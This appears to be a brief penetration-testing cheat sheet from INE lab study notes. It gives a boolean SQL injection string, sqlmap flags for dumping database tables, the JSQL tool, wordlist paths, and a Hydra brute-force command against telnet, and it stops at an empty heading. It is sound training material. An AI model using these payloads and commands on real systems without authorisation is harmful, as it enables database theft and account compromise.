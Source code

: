 # <b><u>SQL Injections</u></b>

## <u>Basic SQL Injection Strings</u>

<b>Boolean Attacks</b>

`' OR 1=1; -- -`


## <u>sqlmap</u>

### <b>Basic sqlmap command</b>

<u>Scanning URL [GET Parameter]</u>

`sqlmap -u <url-to-check>`

<u>Notations</u>

```
-u ==> specify url to check
-p ==> parameter to specify [eg, id]
--technique=U ==> Use Union Attacks
--technique=B ==> Use Boolean Attacks
--tables ==> Dump tables
-D ==> Specify Name of the Database
-T ==> Table Name to dump
--dump ==> Dump the content from the Database
```

## <u>JSQL Injection [GUI Software]</u>

`JSQL GUI` is a GUI application that can fetch database from sql injection, From `GET` request [the parameter being in the URL as `injection.php?id=123`]


# <b><u>Bruteforce Attacks</u></b>

## <u>Bruteforce Wordlists Suggested in INE LABS</u>

<b>USERNAME LIST 1:</b> `/usr/share/ncrack/minimal.usr`<br>
<b>PASSWORD LIST 1:</b> `/usr/share/seclists/Passwords/rockyou-10.txt`<br>
<b>PASSWORD LIST 2:</b> `/usr/share/seclists/Passwords/rockyou-15.txt`

## <u>Hydra</u>

<i>Attacking `telnet service`</i>

`hydra -L user_list.txt -P password_list.txt telnet://target.server`

<i>Attacking `http-get service`</i>
